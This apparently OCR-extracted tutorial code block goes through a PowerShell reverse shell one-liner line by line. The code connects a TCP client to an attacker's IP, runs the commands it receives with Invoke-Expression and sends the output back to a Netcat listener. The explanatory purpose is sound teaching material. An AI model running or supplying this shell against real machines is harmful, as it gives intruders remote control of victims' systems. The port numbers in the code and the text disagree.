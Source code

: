 ```powershell

# powershell -nop -c 
# Executes powershell.exe with no profile (nop) and executes the command/script block (-c or -Command) contained in the quotes

# "$client = New-Object System.Net.Sockets.TCPClient($ipAttacker,433);
# Sets/evaluates the variable $client equal to (=) the New-Object cmdlet, which creates an instance of the System.Net.Sockets.TCPClient .NET framework object. The .NET framework object will connect with the TCP socket listed in the parentheses ($ipAttacker,443). The semi-colon (;) ensures the commands & code are executed sequentially.

# $stream = $client.GetStream();
# Sets/evaluates the variable $stream equal to (=) the $client variable and the .NET framework method called GetStream that facilitates network communications. 

# [byte[]]$bytes = 0..65535|%{0}; 
# Creates a byte type array ([]) called $bytes that returns 65,535 zeros as the values in the array. This is essentially an empty byte stream that will be directed to the TCP listener on an attack box awaiting a connection.

# while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)

# Starts a while loop containing the $i variable set equal to (=) the .NET framework Stream.Read ($stream.Read) method. The parameters: buffer ($bytes), offset (0), and count ($bytes.Length) are defined inside the parentheses of the method.


# {;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i);
# Sets/evaluates the variable $data equal to (=) an ASCII encoding .NET framework class that will be used in conjunction with the GetString method to encode the byte stream ($bytes) into ASCII. In short, what we type won't just be transmitted and received as empty bits but will be encoded as ASCII text. 

# $sendback = (iex $data 2>&1 | Out-String ); 
# Sets/evaluates the variable $sendback equal to (=) the Invoke-Expression (iex) cmdlet against the $data variable, then redirects the standard error (2>) & standard input (1) through a pipe (|) to the Out-String cmdlet which converts input objects into strings. Because Invoke-Expression is used, everything stored in $data will be run on the local computer. 

# $sendback2 = $sendback + 'PS ' + (pwd).path + '> '; 
# Sets/evaluates the variable $sendback2 equal to (=) the $sendback variable plus (+) the string PS ('PS') plus + path to the working directory ((pwd).path) plus (+) the string '> '. This will result in the shell prompt being PS C:\workingdirectoryofmachine >. 

# $sendbyte=  ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}
# Sets/evaluates the variable $sendbyte equal to (=) the ASCII encoded byte stream that will use a TCP client to initiate a PowerShell session with a Netcat listener running on the attack box.

```
